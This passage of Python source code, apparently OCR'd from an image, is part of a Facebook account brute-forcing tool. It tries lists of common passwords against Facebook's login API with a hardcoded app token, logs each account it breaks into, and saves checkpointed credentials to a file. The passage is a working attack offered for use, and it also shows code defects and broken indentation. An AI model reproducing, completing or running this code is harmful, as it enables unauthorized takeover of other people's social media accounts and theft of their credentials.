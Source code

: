 										else:
											#Pass5
											pass5 = "sayang123","sayangku123"
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
												z = json.loads(x.text)
												print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass5+" =>"+z['name'])
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													check_it = open("out/output.txt", "a")
													check_it.write(user+"|"+pass5+"\n")
													check_it.close()
													checkpoint.append(user+pass5)
												else:
													#Pass6
													pass6 = "bintang123","bintang12345"
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
														z = json.loads(x.text)
														print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass6+" =>"+z['name'])
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															check_it = open("out/output.txt", "a")
															check_it.write(user+"|"+pass6+"\n")
															check_it.close()
															checkpoint.append(user+pass6)
														else:
															#Pass7
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+fb_token)
															b = json.loads(a.text)
															pass7 = "1234567890","password123","michelle","someone","","iloveyou","princess","playboy"
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
																z = json.loads(x.text)
																print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass7+" =>"+z['name'])
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	check_it = open("out/output.txt", "a")
																	check_it.write(user+"|"+pass7+"\n")
																	check_it.close()
																	checkpoint.append(user+pass7)
                                                                                                                                else:
                                                                                                                                        #Pass8
                                                                                                                                         a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+fb_token)
                                                                                                                                         b = json.loads(a.text)
                                                                                                                                         pass8 = "january","february","march","april","may","june","july","august","september","november","december"